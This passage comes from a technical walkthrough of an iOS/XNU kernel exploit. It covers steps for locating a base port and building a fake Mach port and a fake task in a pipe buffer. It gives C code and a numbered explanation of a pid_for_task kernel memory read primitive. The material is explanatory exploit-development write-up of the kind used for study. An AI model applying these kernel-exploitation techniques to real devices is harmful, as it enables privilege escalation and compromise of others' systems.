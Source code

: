     	INFO("fake port is at offset %zu", fake_port_offset);
    	// Do a write so that the stage0 and stage1 read primitives can start with a pipe read.
    	write_pipe();
{% endhighlight %}
#### Step 19: Find the address of the base port

We can find the address of the base port pointer since its at a fixed offset from the **ip_requests** field. Next, we need to find out the address of the base port from the base port pointer using which we can locate our pipe buffer address. However, as discussed a bit earlier, in order to create a proper fake port on which you can use **task_for_pid()** on, you must have a **kobject** field pointing to an address that corresponds to a task. Also, the task will have a **bsd_info** pointing to a proc. This is achieved by creating a fake port of type **IKOT_NONE**, creating a fake task and setting the **bsd_info** field pointing to the (**AddressToRead - OFFSET(pidInProcStruct)**), and then sending that fask task in a mach message to the fake port. By looking at the port's **ip_messages.imq_messages** field via the pipe we can get the address of the **ipc_kmsg** struct containing the task address, and then replace the port to an **IKOT_TASK** port with the **kobject** field pointing tot the fake task. Now that we have built an initial read primitive, we can then use the function **stage0_read64** to read the **base_port** address.

{% highlight c %}
    // 19\. Now that we know the address of an array that contains a pointer to base_port, we
    	// need a way to read data from that address so we can locate our pipe buffer in memory.
    	//
    	// We'll use the traditional pid_for_task() technique to read 4 bytes of kernel memory.
    	// However, in order for this technique to work, we need to get a fake task containing an
    	// offset pointer to the address we want to read at a known location in memory. We can do
    	// that by initializing our fake port, sending a Mach message containing our fake task to
    	// the port, and reading out the port's imq_messages field.
    	//
    	// An unfortunate consequence of this technique is that each 4-byte read leaks an ipc_kmsg
    	// allocation. Thus, we'll store the leaked kmsgs so that we can deallocate them later.
    	uint64_t leaked_kmsgs[2] = {};
    	uint64_t address_of_base_port_pointer = ip_requests
    		+ 1 * SIZE(ipc_port_request) + OFFSET(ipc_port_request, ipr_soright);
    	base_port_address = stage0_read64(address_of_base_port_pointer, leaked_kmsgs);
    	INFO("base port is at 0x%016llx", base_port_address);
    	// Check that it has the offset that we expect.
    	if (base_port_address % pipe_buffer_size != fake_port_offset) {
    		ERROR("base_port at wrong offset");
    	}
{% endhighlight %}
The **stage0_read** is a really handy function and basically does the job of reading out the kernel memory 32 bits at a time. It basically does the following steps.

1.  Create a fake port in the pipe, set all the required properties and set the **IKOT** type as **IKOT_NONE**
2.  Create a fake task, set the **bsd_info** field depending on the address you want to read and send it to the port in a mach message.
3.  Read the receiver port contents by reading the pipe and finds the address of the task from its **imq_messages** field.
4.  Rewrite the port by rewriting the pipe and now set the **IKOT** type as **IKOT_TASK** to create it as a fake task port so one can use the **task_for_pid()** call on it
5.  Call **pid_for_task** to read kernel memory
